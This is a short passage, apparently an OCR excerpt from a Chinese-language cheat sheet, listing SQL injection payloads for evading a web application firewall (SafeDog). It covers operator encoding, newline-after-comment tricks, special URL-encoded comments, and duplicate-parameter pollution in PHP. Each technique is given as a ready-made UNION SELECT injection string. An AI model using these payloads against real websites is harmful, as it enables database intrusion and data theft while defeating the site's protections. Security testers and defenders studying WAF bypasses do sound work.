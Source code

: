    ```sql
   and -> && -> %26%26
   or -> || -> %7c%7c
   ```

4. 注释换行绕过

   换行后不受上行单行注释的影响

   ```sql
   union -- xxx%0aselect 1,2,3%23
   ```

5. 特殊url编码绕过

   ```sql
   union/*%!a*/select 1,2,3%23
   ```

6. url另类传参绕过

   php中，当url参数出现两个同名参数时，将取最后一个参数的值（安全狗误以为/**/是注释的内容，因此全部忽略）

   ```sql
   ?tel=1&id=/*&tel=1' union select 1,2,3%23*/
   ```
